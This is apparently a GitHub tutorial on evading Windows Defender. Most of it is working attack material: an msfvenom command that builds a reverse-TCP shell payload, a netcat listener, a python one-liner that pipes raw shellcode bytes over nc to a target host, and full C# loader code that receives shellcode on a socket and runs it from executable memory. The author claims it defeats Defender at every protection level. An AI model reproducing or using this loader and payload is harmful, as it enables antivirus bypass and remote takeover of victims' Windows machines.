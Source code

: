 # Antivirus Evasion - Part 2

## Using Sockets to bypass Defender

We open a TCP socket port and send shellcode over that which is later executed to give reverse shell.

This works on latest defender as of Feb15 2021


### Steps 
- Prepare payload using msfvenom
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.122.1 LPORT=80 -b "\x00" -f csharp
```
- Once done compile the below code to generate exe which opens port 8080 on the ipv4 interface.
- Once done start reverse shell handler on kali
```
nc -nlvp 80
```
- Now send shellcode over the TCP socket which will be executed by executable.
```
python -c 'print "\xda\xc9\xbd\x4c\xee\xdc\x9e\xd9\x74\x24\xf4\x5e\x29\xc9\xb1\x52\x31\x6e\x17\x03\x6e\x17\x83\xa2\x12\x3e\x6b\xc6\x03\x3d\x94\x36\xd4\x22\x1c\xd3\xe5\x62\x7a\x90\x56\x53\x08\xf4\x5a\x18\x5c\xec\xe9\x6c\x49\x03\x59\xda\xaf\x2a\x5a\x77\x93\x2d\xd8\x8a\xc0\x8d\xe1\x44\x15\xcc\x26\xb8\xd4\x9c\xff\xb6\x4b\x30\x8b\x83\x57\xbb\xc7\x02\xd0\x58\x9f\x25\xf1\xcf\xab\x7f\xd1\xee\x78\xf4\x58\xe8\x9d\x31\x12\x83\x56\xcd\xa5\x45\xa7\x2e\x09\xa8\x07\xdd\x53\xed\xa0\x3e\x26\x07\xd3\xc3\x31\xdc\xa9\x1f\xb7\xc6\x0a\xeb\x6f\x22\xaa\x38\xe9\xa1\xa0\xf5\x7d\xed\xa4\x08\x51\x86\xd1\x81\x54\x48\x50\xd1\x72\x4c\x38\x81\x1b\xd5\xe4\x64\x23\x05\x47\xd8\x81\x4e\x6a\x0d\xb8\x0d\xe3\xe2\xf1\xad\xf3\x6c\x81\xde\xc1\x33\x39\x48\x6a\xbb\xe7\x8f\x8d\x96\x50\x1f\x70\x19\xa1\x36\xb7\x4d\xf1\x20\x1e\xee\x9a\xb0\x9f\x3b\x0c\xe0\x0f\x94\xed\x50\xf0\x44\x86\xba\xff\xbb\xb6\xc5\xd5\xd3\x5d\x3c\xbe\x1b\x09\x44\x3f\xf4\x48\xb8\x3f\x54\xc4\x5e\x55\x44\x80\xc9\xc2\xfd\x89\x81\x73\x01\x04\xec\xb4\x89\xab\x11\x7a\x7a\xc1\x01\xeb\x8a\x9c\x7b\xba\x95\x0a\x13\x20\x07\xd1\xe3\x2f\x34\x4e\xb4\x78\x8a\x87\x50\x95\xb5\x31\x46\x64\x23\x79\xc2\xb3\x90\x84\xcb\x36\xac\xa2\xdb\x8e\x2d\xef\x8f\x5e\x78\xb9\x79\x19\xd2\x0b\xd3\xf3\x89\xc5\xb3\x82\xe1\xd5\xc5\x8a\x2f\xa0\x29\x3a\x86\xf5\x56\xf3\x4e\xf2\x2f\xe9\xee\xfd\xfa\xa9\x1f\xb4\xa6\x98\xb7\x11\x33\x99\xd5\xa1\xee\xde\xe3\x21\x1a\x9f\x17\x39\x6f\x9a\x5c\xfd\x9c\xd6\xcd\x68\xa2\x45\xed\xb8"' | nc 192.168.122.189 8080
```

Code:
```c#
using System.Runtime.InteropServices;
using System;
using System.Net.Sockets;
using System.Net;
class Program
{
    [DllImport("kernel32")]
    private static extern IntPtr VirtualAlloc(UInt32 lpAddress, UInt32 dWsize, UInt32 flAllocationType, UInt32 flProtect);

    [DllImport("kernel32")]
    private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dWsize, IntPtr lpStartAddress, IntPtr lpParameter, UInt32 dwCreationFlags, IntPtr lpThradId);

    [DllImport("kernel32")]
    private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliSeconds);

    private static UInt32 MEM_COMMIT = 0x1000;
    private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

    static void Main(string[] args)
    {
	// Socket creation
        IPHostEntry ipHost = Dns.GetHostEntry(Dns.GetHostName());
        IPAddress ipAddress = ipHost.AddressList[1];
        IPEndPoint localEndpoint = new IPEndPoint(ipAddress, 8080);

        Socket s = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);
        s.Bind(localEndpoint);
        s.Listen(5);

	// Accept incomming connection
        Socket handler = s.Accept();
        byte[] bytes = new byte[1024];
        byte[] shellcode;

	#Save the incomming bytes to a byte array to execute
        while (true)
        {
            int bytesRec = handler.Receive(bytes);
            shellcode = new byte[bytesRec];
            Buffer.BlockCopy(bytes, 0, shellcode, 0, bytesRec);
            break;
        }

        IntPtr address = VirtualAlloc(0, (UInt32)(shellcode.Length - 1), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        Marshal.Copy(shellcode, 0, address, shellcode.Length - 1);
        IntPtr threadHandle = CreateThread(0, 0, address, IntPtr.Zero, 0, IntPtr.Zero);
        WaitForSingleObject(threadHandle, 0xFFFFFFFF);
    }
}
```

## Pre-Requisite
- The structure of the VirtualAlloc,CreateThread and WaitForSingleObject has been explained on [day1](../days/day1.md)
- Reason for doing `shellcode.Length-1` is that upon sending the shellcode over nc there would be extra new linw which is not part of shellcode.
- I dont find need to consider cases where shellcode is greater than 1024 since that is very impractical for most of use cases.

## Reference
- The idea was taken from [Ired Teams](https://www.ired.team/offensive-security/defense-evasion/bypassing-windows-defender-one-tcp-socket-away-from-meterpreter-and-cobalt-strike-beacon#code). The techinique is still valid and works on all level of protection by defender.
